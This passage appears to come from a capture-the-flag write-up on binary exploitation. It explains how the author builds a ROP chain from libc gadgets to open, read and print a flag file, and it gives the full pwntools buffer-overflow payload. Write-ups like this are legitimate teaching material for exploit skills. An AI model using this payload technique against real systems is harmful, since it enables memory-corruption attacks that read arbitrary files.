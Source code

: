 ## ORW on a file
all the required gadgets one would need could be easily looked up in the libc and since we already have the libc leak there's no obstacle here. 
i looked up a syscall table online and `x86_64 calling convention` to craft a ROP chain that performs an ORW on a file. 

here's the payload that i used
```py
## exploit payload
payload = b'A' * 0x28

## write 'flag.txt' in libc data section
payload += p64(pop_rdi_ret)
payload += p64(target_address)
payload += p64(libc.sym['gets'])

## open 'flag.txt'
payload += p64(pop_rdi_ret)
payload += p64(target_address)
payload += p64(pop_rsi_ret)
payload += p64(0)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(2)
payload += p64(syscall)

## read './flag.txt'
payload += p64(pop_rdi_ret)
payload += p64(3)
payload += p64(pop_rsi_ret)
payload += p64(target_address)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0xff)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(0)
payload += p64(syscall)

## write './flag.txt'
payload += p64(pop_rdi_ret)
payload += p64(1)
payload += p64(pop_rsi_ret)
payload += p64(target_address)
payload += p64(pop_rdx_rbx_ret)
payload += p64(0xff)
payload += p64(0)
payload += p64(pop_rax_ret)
payload += p64(1)
payload += p64(syscall)

r.sendline(payload)
r.sendline(b'flag.txt\x00')
```
